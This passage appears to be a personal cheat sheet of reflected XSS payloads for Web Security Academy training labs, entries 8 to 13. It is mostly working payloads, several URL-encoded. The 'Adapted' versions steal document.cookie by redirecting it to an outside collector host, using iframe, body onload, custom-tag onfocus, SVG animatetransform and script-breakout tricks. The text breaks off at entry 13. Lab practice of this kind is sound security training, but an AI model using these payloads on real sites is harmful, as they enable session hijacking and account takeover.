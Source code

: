 8. Reflected XSS into HTML context with most tags and attributes blocked  
BruteForce all tags by using xss cheat-sheet, then:
```
<iframe src="https://0a61001b0306cecac0be0a5000570086.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
Adapted:
```
<script>
location = 'https://kek.web-security-academy.net/?query=<body onload=document.location='https://burp.oastify.com/?c='+document.cookie tabindex=1>#x';
</script>

ULR Encoded:

<script>
location = 'https://kek.web-security-academy.net/?query=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fburp.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```
9. Reflected XSS into HTML context with all tags blocked except custom ones  
```
<script>
location='https://kek.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```
Adapted:
```
<xss id=x onfocus=document.location="http://burp.oastify.com/?c="+document.cookie tabindex=1>#x

ULR Encoded:

%3Cxss%20id=x%20onfocus=document.location=%22http://burp.oastify.com/?c=%22+document.cookie%20tabindex=1%3E#x
```
10. Reflected XSS with some SVG markup allowed  
```
<svg><animatetransform onbegin=alert(1)> 
```
Adapted:
```
<svg><animatetransform onbegin=document.location='https://burp.oastify.com/?c='+document.cookie;>

URL Encoded:

%3Csvg%3E%3Canimatetransform%20onbegin=document.location='https://burp.oastify.com/?c='+document.cookie;%3E
```
11. Reflected XSS in canonical link tag  
```
'accesskey='x'onclick='alert(1)
```
12. Reflected XSS into a JavaScript string with single quote and backslash escaped  
```
</script><script>alert(1)</script>
```
Adapted:
```
</script><script>document.location="http://burp.oastify.com/?c="+document.cookie</script>
```
13. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped  
```
\';alert(1);//
\'-alert(1)//
```
Adapted: